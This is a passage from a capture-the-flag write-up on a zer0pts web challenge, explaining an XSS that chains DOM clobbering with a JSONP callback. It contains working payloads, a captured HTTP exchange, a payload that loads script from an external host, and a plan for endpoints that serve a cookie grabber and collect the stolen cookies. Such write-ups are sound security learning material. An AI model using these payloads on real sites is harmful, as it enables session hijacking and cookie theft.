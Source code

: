 Now you can call the the api.php endpoint specifying a callback. A payload like the following can give a basic XSS.

```html
dark.min.css"><form id=trustedTypes><output id=defaultPolicy>true</output></form><a id=callback href=//%250Aalert();></a><"
```

Beacause the result request will be the following.

```
GET /api.php?callback=//%0Aalert(); HTTP/1.1
Host: web.ctf.zer0pts.com:8003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: */*
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://web.ctf.zer0pts.com:8003/?theme=dark.min.css%22%3E%3Cform%20id=trustedTypes%3E%3Coutput%20id=defaultPolicy%3Etrue%3C/output%3E%3C/form%3E%3Ca%20id=callback%20href=//%250Aalert();%3E%3C/a%3E%3C%22

HTTP/1.1 200 OK
Date: Sat, 06 Mar 2021 14:03:22 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.13
Vary: Accept-Encoding
Content-Length: 577
Connection: close
Content-Type: application/javascript

//
alert();([{"id":1,"title":"Hello, world!","content":"Welcome to my blog platform!"},{"id":2,"title":"Lorem ipsum","content":"Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum."}])
```

You can use `jsonp` method itself to perform cross-origin request, getting the URL via *DOM clobbering* to bypass the maximum length.

```html
dark.min.css"><form id=trustedTypes><output id=defaultPolicy>true</output></form><a id=x href=https://<REDACTED>.free.beeceptor.com/></a><a id=callback href=//%250Ajsonp(x);></a><"
```

Analyzing the final webpage after the request, you can discover that with `jsonp` method the response of the cross-origin call is included in the page source and treated like an allowed JavaScript.

![remote_script.png](remote_script.png)

So you can create two endpoints:
* `/evil/` that will be called by the `jsonp` method and will return a cookie grabber script;
* `/cookie/` that will be called by the cookie grabber script to exfiltrate cookies.
